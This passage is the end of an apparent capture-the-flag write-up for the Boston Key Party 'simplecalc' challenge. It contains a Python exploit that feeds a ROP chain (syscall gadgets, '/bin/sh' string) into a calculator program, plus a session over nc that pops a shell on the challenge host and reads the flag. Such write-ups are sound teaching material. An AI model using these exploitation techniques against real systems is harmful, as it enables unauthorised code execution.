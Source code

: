 # 0x4648e5 : syscall ; ret
payload.append('1\n2303090\n2303091\n') #ADD 2303090 2303091
payload.append('2\n42\n42\n')           # PADD
# 0x492468 : mov rdi, rsp ; call r12
payload.append('1\n2396724\n2396724\n') #ADD 2396724 2396724
payload.append('2\n42\n42\n')           # PADD
# /bin/sh\0 => nib/ \0hs/
payload.append('1\n926200087\n926200088\n') #ADD
payload.append('1\n3422615\n3422616\n') #ADD

trigger = '5\n'
payload.append(trigger)

for cmd in payload:
    stdout.write(cmd)
    stdout.flush()
    sleep(0.1) # just to be nice
{% endhighlight %}

Let's run it:
{% highlight shell-session %}
$ (./payload.py; cat -) | nc simplecalc.bostonkey.party 5400

  |#------------------------------------#|
  |         Something Calculator         |
  |#------------------------------------#|

Expected number of calculations: Options Menu:
 [1] Addition.
 [2] Subtraction.
 [3] Multiplication.
 [4] Division.
 [5] Save and Exit.
=> Integer x: Integer y: Result for x - y is 0.

[snip]

=> Integer x: Integer y: Result for x + y is 6845231.

Options Menu:
 [1] Addition.
 [2] Subtraction.
 [3] Multiplication.
 [4] Division.
 [5] Save and Exit.
=> 5
ls
key
run.sh
simpleCalc
simpleCalc_v2
socat_1.7.2.3-1_amd64.deb
cat key
BKPCTF{what_is_2015_minus_7547}
{% endhighlight %}


[ropgadget]: https://github.com/JonathanSalwan/ROPgadget
[libc_free]: https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=b8a43bfb32bcd97a6ed468cb7635b4bbfef2e3a2;hb=HEAD#l2925
[syscalls]: http://blog.rchapman.org/post/36801038863/linux-system-call-table-for-x86-64
[call_conv]: https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI
[fortytwo]: https://en.wikipedia.org/wiki/The_answer_to_life_the_universe_and_everything#Answer_to_the_Ultimate_Question_of_Life.2C_the_Universe.2C_and_Everything_.2842.29